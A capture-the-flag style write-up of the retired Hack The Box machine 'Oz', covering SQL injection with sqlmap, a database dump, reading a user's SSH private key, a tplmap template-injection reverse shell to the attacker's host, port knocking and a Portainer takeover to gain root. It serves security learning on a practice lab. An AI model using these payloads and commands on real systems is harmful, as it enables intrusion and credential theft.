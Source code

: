 ```yaml
---
layout: post
title: Hack The Box - Oz
categories: hack-the-box
tags: [Linux, Web, SQLI, ssti, ssh, Pivoting]
image: /hackthebox/oz/0.png
---
```


<hr>
### Quick Summary 
#### Hey I'm back with another Hack The Box write-up , this time Oz has retired and it was rated as a hard box. I enjoyed this box , it was really fun. It had some docker tricks which were very cool , It's a linux box and it's ip is 10.10.10.96 so let's jump right in.
#### Check out my [other Hack The Box write-ups](/categories) 
![](/images/hackthebox/oz/0.png)
<hr>
### Nmap
#### As always we will start by running nmap to scan for open ports and services.
`nmap -sV -sT -o nmapinitial oz.htb`
#### Note : I added the ip to my /etc/hosts file as oz.htb
![](/images/hackthebox/oz/1.png)
#### And we see only http on port 80 and 8080. We also see that it's running a python server.
<br>
<hr>
### Enumerating http
#### On port 80 there's a web page with the title "OZ Webapi" and it's asking us to register a username.
![](/images/hackthebox/oz/2.png)
#### On port 8080 we see a login page.
![](/images/hackthebox/oz/3.png)
#### If we tried running gobuster on port 80 to find hidden dirs and files we will get a wildcard response.
![](/images/hackthebox/oz/4.png)
#### And that's because the server doesn't respond with 404. Instead of 404 , when we request a non-existing page the server responds with a line of random chars.
#### Here I requested `http://oz.htb/anything`
![](/images/hackthebox/oz/5.png)
#### And this makes it hard to enumerate because we will always get a 200 response. So what are we going to do is to use wfuzz to filter the responses for us.
`wfuzz -u http://oz.htb/FUZZ/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hl 0`
#### This won't show us any response with 0 lines.
![](/images/hackthebox/oz/6.png)
#### After a few seconds we get /users/
<br>
<hr>
### SQL Injection
#### When we visit /users/ in the browser we get the default response : please register a username.
![](/images/hackthebox/oz/7.png)
#### So we have /users/ which is a valid path , what happens if we tried a username that probably exists, something like admin ?
![](/images/hackthebox/oz/8.png)
#### We get a json response `username : "admin"` 
#### Let's try a single quote `'`
![](/images/hackthebox/oz/9.png)
#### We get 500 Internal Server Error, So this endpoint is probably vulnerable to SQL injection , Let's try something else , `'OR 1 OR'`
![](/images/hackthebox/oz/10.png)
#### We get another username : "dorthi" , So this is a confirmation that it's vulnerable to sqli , Let's do another injection and see if we can enumerate users 
`' or length(username)='4`
![](/images/hackthebox/oz/11.png)
#### Another username : "toto"
#### Let's try 7 
![](/images/hackthebox/oz/12.png)
#### tin.man 
#### So we confirmed it's sqli , The next step is to use sqlmap.
`sqlmap -u http://10.10.10.96/users/toto --all`
#### This will dump the whole database
![](/images/hackthebox/oz/13.png)
#### After some time it will start dumping tables and we will notice an interesting table `users_gbw`
![](/images/hackthebox/oz/14.png)
#### So if we try to crack those hashes the only one that will crack is wizard.oz : `wizardofoz22`
#### Now we have a username and its password let's login to port 8080
![](/images/hackthebox/oz/15.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/16.png)
#### And success !
<br>
<hr>
### Dorthi's ssh key
#### We login to something that looks like a ticketing system, After reading the tickets we will find 2 interesting tickets.
![](/images/hackthebox/oz/17.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/18.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/19.png)
#### So this ssh key is on the database and we have sqli on that database , Let's grab it.
`sqlmap -u "http://10.10.10.96/users/toto" --string "username" --file-read "/home/dorthi/.ssh/id_rsa" -v1`
![](/images/hackthebox/oz/20.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/21.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/22.png)
#### Cool so now we can ssh and own user, No wait ...
#### By looking at the nmap scan again:
![](/images/hackthebox/oz/1.png)
#### There's no ssh listening !
<br>
<hr>
### Server Side Template Injection
#### If we return to that ticketing system we will see that we can add a ticket , it asks us for a name and a description.
![](/images/hackthebox/oz/23.png)
#### By capturing that request in burp we will see a POST request with two parameters name and desc.
![](/images/hackthebox/oz/24.png)
#### And the response outputs them.
![](/images/hackthebox/oz/25.png)
#### If we used [tplmap](https://github.com/epinna/tplmap) (a tool like sqlmap for automatic template injection exploitation) we will find that it's vulnerable.
`python tplmap.py -u 'http://10.10.10.96:8080' -X POST -d 'name=*&desc=anything' -c 'token=TOKEN' --reverse-shell 10.10.xx.xx 1337`
![](/images/hackthebox/oz/26.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/27.png)
#### Then we check our listener , we will get a reverse shell.
<br>
<hr>
### Knock , Knock
#### After some enumeration we will find in `/` two unusual dirs `containers` and `.secret` , in `.secret` there is a file called `knockd.conf` 
![](/images/hackthebox/oz/28.png)
#### That's a configuration file for ssh port knocking, Port knocking means that in order to connect to an ssh server you need to ping some ports in a specific sequence to be able to connect.
![](/images/hackthebox/oz/29.png)
#### In our situation the ports are 40809 50212 46969 and all of them are udp
#### In the other dir `containers` there's a dir called `database` which has some files, One of them is called `start.sh`
![](/images/hackthebox/oz/30.png)
#### And we grabbed some passwords maybe we will need them later.
#### Now we know the port sequence let's ssh into the box. We can use knockd to do that but I used a small script that uses nmap.
![](/images/hackthebox/oz/31.png)
#### We `chmod 600` to the key then execute our script.
![](/images/hackthebox/oz/32.png)
#### The key is protected with a password , Let's try the db password we found earlier : "N0Pl4c3L1keH0me"
![](/images/hackthebox/oz/33.png)
#### And we owned user ! 
<br>
<hr>
### Portainer
#### After some regular enumeration if we do sudo -l we will find that dorthi can run some commands as root `docker network ls` and `docker network inspect *`
![](/images/hackthebox/oz/34.png)
#### Let's first list the networks 
`sudo docker network ls`
![](/images/hackthebox/oz/35.png)
#### We see some networks let's inspect the first one `bridge`
`sudo docker network inspect bridge`
![](/images/hackthebox/oz/36.png)
#### We find `portainer-1.11.1` and its ip is `172.17.0.2` , Portainer is the user interface for docker management and it usually runs http on port 9000 , we can also check that by using nmap. Luckily it's installed on the box.
![](/images/hackthebox/oz/37.png)
#### And we see that port 9000 is listening , so now we need to set up an ssh port forwarding to be able to access that portainer.
#### We can edit the ssh port knocking script to add the forwarding command.
![](/images/hackthebox/oz/38.png)
#### Now when we visit localhost on port 9000 we get a login page.
![](/images/hackthebox/oz/39.png)
#### By using the HTTP API as documented [here](https://gist.github.com/deviantony/77026d402366b4b43fa5918d41bc42f8) we can re-assign the admin password by sending a POST request to `/api/users/admin/init` with data as : `{"username":"admin","password":"new-password"}`
#### I did it with burp and set the password to `l0c4l` :
![](/images/hackthebox/oz/40.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/41.png)
<br>
<hr>
### Root
#### After we login we will see the dashboard showing the status of the containers.
![](/images/hackthebox/oz/42.png)
#### In the containers tab there are 4 container running.
![](/images/hackthebox/oz/43.png)
#### If we check the container webapi we can use its console.
![](/images/hackthebox/oz/44.png)
#### We can create a new container with the image of webapi and mount `/root` or the whole filesystem `/` then use the console to access it.
#### First we will grab the image name from the images tab : "webapi:latest"
![](/images/hackthebox/oz/45.png)
#### Then we will create a container and name it anything , I named it "NiceContainer" , add the image , then add a volume with path `/root` and mount it to /mnt/ 
![](/images/hackthebox/oz/46.png)
#### Then from the security tab we choose privileged mode.
![](/images/hackthebox/oz/47.png)
#### Click create , Use the console , `cd /mnt` and we own root ! :D
![](/images/hackthebox/oz/48.png)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### previous Hack The Box write-up : [Hack The Box - Waldo](/hack-the-box/waldo/)
#### Next Hack The Box write-up : [Hack The Box - SecNotes](/hack-the-box/secnotes/)
<hr>

